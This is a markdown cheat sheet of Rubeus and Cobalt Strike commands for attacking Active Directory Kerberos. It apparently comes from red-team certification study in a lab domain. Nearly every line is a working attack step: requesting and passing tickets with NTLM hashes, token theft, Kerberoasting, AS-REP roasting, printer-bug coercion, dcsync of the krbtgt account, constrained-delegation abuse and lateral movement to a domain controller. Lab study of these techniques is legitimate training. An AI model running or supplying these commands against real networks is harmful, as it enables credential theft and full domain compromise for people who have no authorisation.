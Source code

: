- Show all tickets in memory
	- `Rubeus triage`
- Get TGT for user and write to a file
	- `execute-assembly /home/alh4zr3d/CRTO/Rubeus.exe asktgt /user:n.lamb /rc4:2e8a408a8aec852ef2e458b938b8c071 /nowrap`
	-  `[System.IO.File]::WriteAllBytes("C:\Users\IEUser\Desktop\nlamb-tgt.kirbi", [System.Convert]::FromBase64String("doIF[...snip...]Lmlv"))`
- Pass-the-Ticket
	-  Create net-only process (take note of PID and LUID)
		-  `rubeus.exe createnetonly /program:C:\\Windows\\System32\\cmd.exe`
	-  Pass the ticket into the new logon session
		-  `rubeus.exe ptt /luid:<luid> /ticket:[...snip...]`
	-  Impersonate token from that process
		-  `steal_token <pid>`
	-  Verify you have access, then jump
		-  `ls \\DC-1\C$`
		-  `jump winrm64 DC-1 tcp`
-  Kerberoast all users
	-  `execute-assembly /home/alh4zr3d/CRTO/Rubeus.exe kerberoast`
-  ASREPRoast all users
	-  `execute-assembly /home/alh4zr3d/CRTO/Rubeus.exe asreproast /format:hashcat`
-  Find all available kerberos tickets in memory (for a user, or all users if in elevated context)
	-  `execute-assembly /home/alh4zr3d/CRTO/Rubeus.exe`
-  Dump tickets from memory
	-  `execute-assembly /home/alh4zr3d/CRTO/Rubeus.exe (/luid:\<luid\> or /service:\<service name\>)`
-  Create process as another user, pass TGT into new logon session, impersonate process, lateral mvmnt
	-  `execute-assembly /home/alh4zr3d/CRTO/Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe`
	-  `execute-assembly /home/alh4zr3d/CRTO/Rubeus.exe ptt /luid:0x21d8e17 /ticket:\[...snip...\]`
-  The "Printer Bug" (Force any machine on the domain to authenticate to owned machine, capture TGT, extract hashes from machine)
	-  `execute-assembly /home/alh4zr3d/CRTO/Rubeus.exe monitor /interval:10`
	-  `execute-assembly E:\Tools\SpoolSample\SpoolSample\bin\Debug\SpoolSample.exe dc-1.cyberbotic.io web-1.cyberbotic.io`
	-  Rubeus should now capture new TGT
	-  Copy file to .kirbi file on local computer
	-  `kerberos_ticket_use C:\Users\Rasta\Desktop\dc-1.kirbi`
	-  `dcsync cyberbotic.io CYBER\krbtgt`
-  Constrained Delegation exploitation
	-  Extract the computer's TGT since it is the computer that is trusted for delegation
		-  `execute-assembly /home/alh4zr3d/CRTO/Rubeus.exe dump /service:krbtgt`
	-  Rubeus s4u, impersonating user with local admin on target
		-  `rubeus.exe s4u /impersonateuser:n.glover /msdsspn:cifs/fs-1.cyberbotic.io /ticket:\[...snip...\]`
	-  Rubeus PTT and impersonate the token to use TGS
- Connect with PowerShell Remoting
	- `Rubeus.exe asktgt /user:Administrator /rc4:b73fdfe10e87b4ca5c0d957f81de6863 /ptt`
	-  `Enter-PSSession -ComputerName dc01`